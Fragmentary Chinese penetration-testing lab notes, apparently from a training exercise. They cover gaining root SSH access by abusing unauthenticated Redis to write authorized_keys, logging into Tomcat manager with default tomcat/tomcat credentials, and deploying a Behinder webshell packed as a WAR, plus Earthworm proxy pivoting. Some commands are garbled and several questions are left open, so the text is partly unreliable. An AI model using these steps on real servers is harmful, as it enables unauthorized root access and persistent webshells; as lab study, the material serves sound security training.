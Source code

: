 config set dbfilename authorized_keys

-------------------

生成公私钥 ssh-keygen-trsa  【】在哪里执行 ??? 终端中和redis中都不认识 ??? 

-------------------

set x "\n\n\n \n\n\n"

save


使用 公私钥连接 ssh -i id_rsa root@10.2.2.55
![](vx_images/5673116176514.png)

------------------------ root目录下创建 .ssh
 sudo cd: permission denied: root
 sudo su 或者 sudo -i 切换成root用户之后再进行操作


-----------------------------------

proxychains4 redis-cli -h 192.168.23.231   【】

![show options, set rhosts ... redis--proxychains4.conf ](vx_images/4251219198954.png)

![](vx_images/3997149229525.png)

-----------------------------------


### tomcat

- 若猜测密码，只能爆破5-6次，否则锁定30分钟

靶机：10.2.2.47
浏览器中输入：http://10.2.2.47:8080/manager/html
tomcat/tomcat 账号

冰蝎  02.04-Behinder3.zip   【】

Java jar -cvf   a.war  shell.jsp  【此句报错，见.txt代码记录】 打包  ??? 只能 java8，java 

【???】浏览器地址栏： http://10.2.2.49:8080/a/shell.jsp  

###  4.1 正向代理




拓扑示意图：A—>B—>T

边界服务器B--类似VPN所连接的183机

实验拓扑图中，是通过PC1访问OA
工具：EW--Earthworm

0) win端用远程桌面连接PC1的公网IP--10.2.2. :
账号： PC/123456

